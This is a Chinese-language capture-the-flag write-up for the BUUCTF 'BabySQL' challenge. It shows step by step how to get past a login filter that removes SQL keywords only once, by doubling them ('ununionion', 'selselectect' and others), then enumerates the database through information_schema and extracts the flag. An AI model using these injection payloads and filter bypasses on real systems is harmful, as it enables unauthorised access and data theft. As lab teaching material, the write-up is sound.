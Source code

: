 # T8 BabySQL

> 题目：BUUCTF [极客大挑战 2019]BabySQL

__0x00 审题__

> 之前说遇到了连续剧，没想到昨天那个后面还有续集，一块做了吧

他上面说已经做了严格的审查，我们再也登不进去了，弱密码不行，直接万能密码，发现报错

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '1=1#'' at line 1
```

* 注意这里明明我用的是' or 1=1#，但是or不见了，考虑被过滤掉了

__0x01 解题__

1. 小tip:双写or,可以试试他是不是只过滤一次

```
?username=admin&password=' oorr 1=1#
```

过了开心：

```
Hello admin！
Your password is 'b805254663161a50d4ec808478ab5d6b'
```

2. 直接猜测和上题一致

检查用户名处有无注点：“?username=1' order by 1%23&password=123”————发现奇怪的变成了“der 1#' and password='123''”不会都过滤了吧

```
?username=11' oorrder bbyy 4%23&password=123 
```

回显:

```
Unknown column '4' in 'order clause'
```

> 终于差不多了，感觉之后就和上一题一模一样了

> 下面回顾

3. 判断字段

直接输入，果然删的啥都不剩了：'1,2,3#' and password='123''

```
?username=admin&password=123' ununionion seselectlect 1,2,3%23
```

简单粗暴得解:
```
Hello 2！
Your password is '3'
```

4. 2,3有回显，查表

直接写很显然不对，观察什么被再次过滤，发现是from information_schema，双写过滤

```
' ununionion selselectect 1,2,group_concat(schema_name)  frfromom  (infoorrmation_schema.schemata) %23
```

回显:

```
Hello 2！
Your password is 'information_schema,mysql,performance_schema,test,ctf,geek'
```

打眼ctf，直接查字段

5. ctf中字段

where被过滤直接双写得：

```
' ununionion selselectect 1,2,group_concat(table_name)  frfromom  (infoorrmation_schema.tables) whwhereere table_schema='ctf' %23
```

re:

```
Hello 2！
Your password is 'Flag'
```

_字段里有好东西_

6. 查里面内容

and又被绕过了，这绕过的也太多了吧

```
' ununionion selselectect 1,2,group_concat(column_name)  frfromom  (infoorrmation_schema.columns) whwhereere table_schema='ctf' aandnd table_name='Flag' %23
```

回显:

```
Hello 2！
Your password is 'flag'
```

> 为啥还不行，好慢（

7. 找数据

```
' ununionion seselectlect 1,2,group_concat(flag)frfromom(ctf.Flag) %23
```
得到flag

__0x02 总结__

1. 避免被过滤的方法，可以双写，只过滤一次
2. 再次熟悉注入过程
